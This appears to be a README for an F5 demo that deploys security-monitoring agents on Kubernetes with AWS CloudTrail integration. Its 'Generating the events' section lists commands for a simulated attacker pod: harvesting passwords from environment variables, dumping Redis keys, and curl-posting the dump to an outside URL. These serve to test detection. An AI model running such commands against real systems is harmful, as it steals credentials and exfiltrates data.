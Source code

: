 XC AIP Demo with CloudTrail integration
==============================
This blueprint allows you to automatically deploy AIP agents into an existing Kubernetes cluster (k3s) running across 2 nodes in UDF. Additionally this blueprint leverages AWS cloud account to configure and integrate AWS CloudTrail with AIP automatically.

What you need to do **BEFORE starting the deployment:**
-------------------------------------------------------

## Copy AIP keys and Account ID


1. Login to F5 Distributed Cloud tenant where you would like AIP to be connected to
2. Navigate to *App Infrastructure Protection* -> **YOUR ORG (mapped NS in XC)** ->*Settings* -> *Keys*
3. Copy the following values:
    - **Deployment Key**
    - **REST API Key**
    - **Organization ID**
    - **User ID**

4. Navigate to *Settings* -> *Integrations* -> *Click on "ADD AWS INTEGRATION"
5. Copy **Account ID** value

## **NEW** Populate Deployment Tags
Recent UDF release introduced deployment-wide tags that this BP uses in place of component-specific User Tags. We recommend using Deployment Tags as it guarantees long-term support from UDF.

1. In this UDF blueprint locate Tags tab
2. You need to populate 5 tags: DEPLOYMENT_KEY, API_KEY, ORG, USER and ACCOUNT. Optionally, populate **ENABLE_RULES** tag if you want the system to auto-enable rules in the following Rulesets: 
      - Base Rule Set
      - Docker Rule Set
      - Kubernetes Rule Set
      - CloudTrail Rule Set

*Note: Due to AIP API throttling (max 16 requests per min) it will take the script full **15 mins** to enable all 238 rules across the Rulesets.*


**Example of Deployment Tags:**

![tags](https://github.com/f5devcentral/aip-demo-udf/blob/main/user_tags.jpg?raw=true)

## Start the deployment

Startup script will perform the following actions to integrate 3 agents (1 on each node plus 1 agent that "listens" to k8s API) and AWS CloudTrail:

 1. Gather data from env file and UDF metadata (user tags)
 2. Deploy stack using Cloudformation template
 3. Create integration on AIP side and gather External ID
 4. Update stack with AIP External ID
 5. Create CloudTrail resources in AIP

## Generating the events

There is a "rogue" pod that will be generating events. The pod uses the following commands to simulate the adversary:

```
kubectl apply -f pod.yaml
kubectl exec redis-client -- env |grep -i pass
REDISCLI_AUTH="$REDIS_PASSWORD" /usr/local/bin/redis-cli -h redis-cluster-master keys \* > my.db
curl --connect-timeout 1 -X POST -F "image=@my.db" https://f5se.com/data/db/my/1.db
```

This behavior is in line with the attacker locating redis DB and exfiltrating DB data to an arbitrary URL

## Enabling Rules

Unless **ENABLE_RULES** User Tag was specified for the deployment, it is necessary to manually enable Rules in order for the system to start generating **Alerts**

To manually enable the Rules, navigate to *Rules* and enable the following Rule Sets:

  1. Base Rule Set
  2. Docker Rule Set
  3. Cloud Trail Rule Set
  4. Kubernetes Rule Set

Additionally, under **RULE TYPE** select the following types and ensure all rules under these types are enabled:

  1. Cloud Trail
  2. File Integrity
  3. Host
  4. Kubernetes Audit
